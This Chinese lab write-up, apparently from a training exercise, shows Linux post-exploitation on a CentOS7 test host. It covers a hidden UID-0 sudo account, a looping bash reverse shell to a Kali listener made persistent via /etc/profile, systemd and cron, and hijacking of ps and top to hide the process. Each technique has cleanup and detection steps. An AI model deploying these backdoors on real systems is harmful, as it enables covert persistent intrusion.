Kali、centos7、win7能互相ping通：





1、迷惑性高权限后门账户创建与排查清理  操作主机:CentOS7

创建与 root 名称高度相似的迷惑账户（账户名以自己的姓名命名），设置 UID=0，附属普通用户组 1002；

groupadd -g 1002 cbhgroup

getent group 1002

useradd -u 0 -g 1002 -G wheel cbh

echo "cbh:x:0:1002::/home/cbh:/bin/bash" >> /etc/passwd

echo "cbh::18900:0:99999:7:::" >> /etc/shadow

mkdir /home/cbh

chown 0:1002 /home/cbh

gpasswd -a cbh wheel

awk -F: '$3==0{print $0}' /etc/passwd



将该迷惑账户加入 wheel 特权组，通过 visudo 配置赋予该账户完整 sudo 执行权限；

visudo

cbh    ALL=(ALL)       ALL



保存退出:wq

验证后门效果：切换至新建用户，无需密码即可执行 useradd、systemctl 等高危管理命令；

su – cbh

sudo useradd testuser

sudo systemctl restart crond



排查清理实操：

使用命令检索 /etc/passwd 中所有 UID 为 0 的特权账号，区分合法 root 与恶意迷惑账户；

awk -F: '$3==0{print $0}' /etc/passwd



查看 wheel 组成员列表，筛选陌生异常账号；

grep wheel /etc/group



检查 /etc/sudoers 配置，删除异常权限规则；

grep cbh /etc/sudoers

visudo

删除cbh    ALL=(ALL)       ALL一行，保存退出:wq



再次验证grep cbh /etc/sudoers



彻底删除恶意迷惑账户，恢复系统原始 sudo 配置，验证权限恢复正常。

重启终端reboot

userdel -r cbh

groupdel cbhgroup

# 再次检索UID0账号，仅保留root

awk -F: '$3==0{print $0}' /etc/passwd

# wheel组仅root

grep wheel /etc/group

# 切换普通用户测试sudo，需要密码

su – alan

sudo ls



2、bash死循环后门脚本编写+持久化驻留  操作主机:监听：Kali；部署：CentOS7

Kali监听端口3366，编写死循环反弹shell脚本（以自己的姓名命名），实现持续反向连接 Kali 监听端口，断开后自动重连；

nc -lvvp 3366



vim /usr/local/bin/cbh_back.sh

#!/bin/bash

while true

do

bash -i >& /dev/tcp/192.168.214.138/3366 0>&1

sleep 2

done

保存退出:wq

chmod +x /usr/local/bin/cbh_back.sh

cat /usr/local/bin/cbh_back.sh

cd /usr/local/bin/

ls -l



采用以下三种独立方式配置持久化，重启服务器验证后门自动运行：

方式 1：写入全局环境变量文件 /etc/profile，登录触发执行；

echo "/usr/local/bin/cbh_back.sh &" >> /etc/profile

tail /etc/profile



切换登录用户，触发执行

su – alan



回到kali查看



彻底清除：

sed -i '/cbh_back.sh/d' /etc/profile

tail /etc/profile

pkill -f cbh_back.sh

ps -ef | grep cbh_back.sh



方式 2：新建 systemd 恶意服务文件实现开机自启；

vim /etc/systemd/system/cbhback.service

[Unit]

Description=backdoor cbh

[Service]

ExecStart=/usr/local/bin/cbh_back.sh

Restart=always

[Install]

WantedBy=multi-user.target

systemctl daemon-reload

systemctl enable cbhback.service

systemctl start cbhback.service





systemctl list-unit-files | grep cbhback



kali重新开启监听，重启centOS，发现能连上



彻底清除：

systemctl stop cbhback.service

systemctl disable cbhback.service

rm -f /etc/systemd/system/cbhback.service

systemctl daemon-reload

pkill -f cbh_back.sh

systemctl list-unit-files | grep cbhback

ls /etc/systemd/system/ | grep cbhback

ps -ef | grep cbh_back.sh



方式 3：写入 /etc/cron.d 全局定时任务，每分钟循环执行脚本；

vim /etc/cron.d/cbh_cron

* * * * * root /usr/local/bin/cbh_back.sh &

cat /etc/cron.d/cbh_cron



验证：重启 CentOS 主机，无需手动执行脚本，Kali 自动收到反弹 shell 会话；

reboot

回到kali查看



3、系统核心命令劫持  操作主机：CentOS7

劫持系统原生 ps、top 命令，编写自定义过滤脚本，过滤隐藏上一题中的死循环后门进程；

vim /usr/bin/cbh_hide.sh

#!/bin/bash

# 判断调用来源是ps还是top

if [[ "$0" == "/usr/bin/ps" ]];then

/usr/bin/ps.bak "$@" | grep -v cbh_back.sh

elif [[ "$0" == "/usr/bin/top" ]];then

/usr/bin/top.bak "$@" | grep -v cbh_back.sh

Fi

chmod +x /usr/bin/cbh_hide.sh



备份 /usr/bin/ 原始 ps、top 程序，替换为劫持脚本；

cp /usr/bin/ps /usr/bin/ps.bak

cp /usr/bin/top /usr/bin/top.bak



# 覆盖ps

mv /usr/bin/ps /usr/bin/ps.ori

ln -s /usr/bin/cbh_hide.sh /usr/bin/ps

# 覆盖top

mv /usr/bin/top /usr/bin/top.ori

ln -s /usr/bin/cbh_hide.sh /usr/bin/top

ls -l /usr/bin/ps /usr/bin/top



效果验证：执行 ps -ef、top 指令，无法检索到后门进程；

ps -ef | grep cbh_back.sh

top



取证恢复：通过 /proc 目录定位被隐藏的恶意进程 PID，还原系统原始 ps、top 程序，删除劫持脚本。

for pid in $(ls /proc | grep "^[0-9]");do cat /proc/$pid/cmdline 2>/dev/null | grep cbh_back.sh && echo "恶意PID: $pid";done

